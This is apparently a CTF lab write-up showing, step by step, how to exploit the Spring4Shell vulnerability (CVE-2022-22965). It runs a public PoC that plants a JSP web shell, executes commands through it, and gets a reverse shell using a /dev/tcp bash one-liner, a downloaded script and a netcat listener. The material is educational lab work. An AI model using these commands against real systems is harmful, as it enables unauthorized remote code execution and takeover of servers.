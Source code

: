 ```yaml
---
title: CVE-2022-22965 - The Critical Spring4Shell Vulnerability
date: 2023-10-13 00:00:00 -500
categories: [EchoCTF]
tags: [0day, cve, CTFs, Hacking]
image:
    path: https://i.ibb.co/cTdw811/spring.webp
---
```


Welcome back, Hackers, **to The Hacking Journey**, In this exciting articles, we will take a look about Spring4shell,  Spring4Shell, also known as `CVE-2022-22965`, is a remote code execution vulnerability within the Spring Framework. It's a name that resonates with the critical Log4Shell bug revealed in 2021.
If you're eager to enhance your hacking skills and learn alongside us, we invite you to join the ranks of aspiring hackers and cybersecurity enthusiasts.
- **The Best Academy to Learn Hacking is [Here](https://affiliate.hackthebox.com/nenandjabhata)**.
- **Beginner Friendly challenges on TryHackMe [Here](https://tryhackme.com/signup?referrer=61e8a27ddd3f3b00496505d1)**.
- **Exploit The Lab [Here](https://echoctf.red/target/92)**.

## Exploitation
Now we will explore how the exploitation works in more details.
### Lab Description :
This is a target with direct implementation of the Spring RCE vulnerability CVE-2022-22965, accessible at http://target:8080/helloworld/greeting. The target is here to assist in familiarizing and developing exploits and mitigation tools for this vulnerability.

Upon visiting the web page, you'll immediately notice a prominent message at the top: `Hello World! Exploit me! `.
Searching possible exploits for spring returns the following PoC: [Here](https://github.com/reznok/Spring4Shell-POC/blob/master/exploit.py).
We can try to exploit the vulnerability on this website.
```terminal
└─# python3 exploit.py
usage: exploit.py [-h] --url URL [--file FILE] [--dir DIR]
exploit.py: error: the following arguments are required: --url

└─# python3 exploit.py --url http://10.0.200.14:8080/helloworld/greeting
[*] Resetting Log Variables.
[*] Response code: 200
[*] Modifying Log Configurations
[*] Response code: 200
[*] Response Code: 200
[*] Resetting Log Variables.
[*] Response code: 200
[+] Exploit completed
[+] Check your target for a shell
[+] File: shell.jsp
[+] Shell should be at: http://10.0.200.14:8080/shell.jsp?cmd=id
                                                                
```
Now if we visit that url in browser we will see the answer of the `id` command `uid=33(www-data) gid=33(www-data) groups=33(www-data) // `, then we can change it to another command like `ls`, `whoami` etc..
```terminal
└─# curl -s "http://10.0.200.14:8080/shell.jsp?cmd=ls" --output -
bin
boot
dev
entrypoint.sh
etc
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

## Reverse Shell
Now we can try to get a shell on the server. We copy the payload below and save it in a file called shell.sh. 
`bash -c 'exec bash -i &>/dev/tcp/10.10.5.230/4444 <&1'`
We start a Listner Machine and also an http server Like This:
```terminal
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```
In a second terminal, start a Netcat listener:
```terminal
└─# nc -lnvp 4444                                             
listening on [any] 4444 ...
```
Download the script onto the target machine and execute it to establish a reverse shell:
```
# curl http://10.0.200.14:8080/shell.jsp?cmd=curl%2010.10.5.230%2Fshell.sh%20-o%20%2Ftmp%2Fshell.sh%20--output%20-
```
Here, we've encoded all special characters in the curl command to ensure proper execution.
```terminal
└─# python3 -m http.server 80  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.0.200.14 - - [13/Oct/2023 12:18:46] "GET /shell.sh HTTP/1.1" 200 -
```
After downloading the script, use a web browser to execute it and trigger the reverse shell:
`http://10.0.200.14:8080/shell.jsp?cmd=bash%20%2Ftmp%2Fshell.sh`
Once executed, you'll receive a reverse shell connection, as indicated by the following:
```
└─# nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.5.230] from (UNKNOWN) [10.0.200.14] 47204
whoami;id;hostnamectl         
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
Static hostname: 1337
       Icon name: computer-laptop
         Chassis: laptop 💻
      Machine ID: 5b6e1889fbdb4bcc88d63eabf7e2110b
         Boot ID: a383e3d1a72b45a8937cf92125545a33
Operating System: Kali GNU/Linux Rolling          
          Kernel: Linux 6.0.0-kali3-amd64
    Architecture: x86-64
 Hardware Vendor: Hewlett-Packard
  Hardware Model: HP EliteBook Folio 9470m
Firmware Version: 68IBD Ver. F.48
```

### Join Us
Thanks for reading. **Let's learn, explore, and hack together**. **Join us on Discord [here](https://discord.gg/wBT9wr9ruG)**. 
